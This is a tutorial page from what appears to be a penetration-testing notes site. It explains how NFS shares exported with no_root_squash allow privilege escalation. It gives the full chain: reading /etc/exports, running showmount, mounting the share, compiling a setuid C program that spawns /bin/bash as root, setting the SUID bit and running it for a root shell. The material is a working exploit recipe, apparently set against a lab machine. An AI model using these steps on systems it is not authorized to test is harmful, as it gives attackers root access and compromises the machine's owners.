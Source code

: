 ```yaml
---
description: >-
  Sharing a fileserver over the network sometimes allows you to upload files as
  root and escalate privileges
---
```


# Network File Sharing (NFS)

## Finding NFS folders

To find a list of all configured NFS folders, just look in the `/etc/exports` file.&#x20;

```bash
cat /etc/exports
```

This file shows the directories paths and the rules for sharing. An example would be the following:

```bash
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_subtree_check)
```

The danger here is the `no_root_squash` option. If you see this, it means that any files uploaded here will keep their root privileges. We can abuse this to upload programs that can be run as root on the target machine.&#x20;

### Finding NFS folders from the outside

We can also find these locations from our host machine, but without the rules associated with them. Using the `showmount -e` command:

```bash
showmount -e 10.10.158.49
```

This will show a list of folders like this:

{% code title="$ showmount -e 10.10.158.49" %}
```bash
Export list for 10.10.158.49: 
/home/ubuntu/sharedfolder * 
/tmp * 
/home/backup *
```
{% endcode %}

## Uploading a SUID binary

The trick to exploiting this is to upload a **SUID** binary that executes the code we want. Then we can run it as the user we have on the target system and elevate ourselves to root privileges.&#x20;

We'll start by connecting to the target machine, by mounting it to a local folder. First, make a folder somewhere that will be mounted to the target. Then mount it using the `mount` command to one of the target's folders with the `no_root_squash` set. Finally, to make it easier for myself, I change the owner of the `target_tmp` directory on my host to my own user, because we created it with `sudo`.&#x20;

```bash
mkdir target_tmp
sudo mount -o rw 10.10.158.49:/tmp target_tmp/
sudo chown $USER:$(id -g) target_tmp/
```

{% hint style="info" %}
**Tip**: You can view your active mounts by looking at your `/proc/mounts` file. Then when you want to disconnect you can unmount the directory with the `umount` command.&#x20;
{% endhint %}

Now the `target_tmp` folder is connected to the target machine's `/tmp` directory. Then we can start creating the malicious binary, that executes the `/bin/bash` command for example.&#x20;

{% code title="shell.c" %}
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
{% endcode %}

Then we can compile it into the target directory. Make sure you use `sudo` for the `gcc` command to ensure that the file owner is root when we upload it.&#x20;

```bash
sudo gcc shell.c -o target_tmp/shell
```

Finally, we need to set the SUID bit on this binary, to make sure that when we execute it our privileges get set to root.&#x20;

```bash
sudo chmod u+s target_tmp/shell
```

Now if we look from the target machine, we see that we have created a `shell` program that is owned by root, and has the SUID bit set (seen by the `s` in the permissions).

```shell-session
$ ls -laF /tmp/shell
-rwsr-xr-x 1 root root 16784 Feb 27 09:42 /tmp/shell*
   ^
```

This means we can now just run the `/tmp/shell` program on the target with our low-privilege user, to get a root shell.&#x20;

```shell-session
$ /tmp/shell
# id
uid=0(root) gid=0(root) groups=0(root)
```
